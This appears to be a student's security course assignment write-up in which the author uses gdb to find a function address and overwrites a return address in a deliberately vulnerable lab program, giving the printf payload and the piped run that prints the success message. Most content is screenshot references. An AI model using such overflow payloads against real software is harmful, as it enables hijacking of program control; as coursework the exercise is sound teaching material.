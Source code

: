### <center><b><h1>Assignment2</h1></b></center>
<center><b>Wonchan Kim 301449586 </b></center>
<h2>Q1</h2>
![[Pasted image 20250925144031.png]]
![[Pasted image 20250925144137.png]]
with gdb debugger, it is possible to get the function address. Need to overflow the buffer with the address of target_function.
![[Pasted image 20250925145859.png]]
setting the breakpoint at the vulnerable function and running
![[Pasted image 20250925152245.png]]
indicates there are 18 bytes difference between the return address of the vulnerable function. 

Hence, 

printf 'AAAAAAAAAAAAAAAAAA\xbb\x11\x40\x00\x00\x00\x00\x00' > p.txt

cat p.txt |./sof
Enter some text: You entered: AAAAAAAAAAAAAAAAAA�@
Yes! You did it!


<h2>Q2</h2>
![[Pasted image 20250925160211.png]]
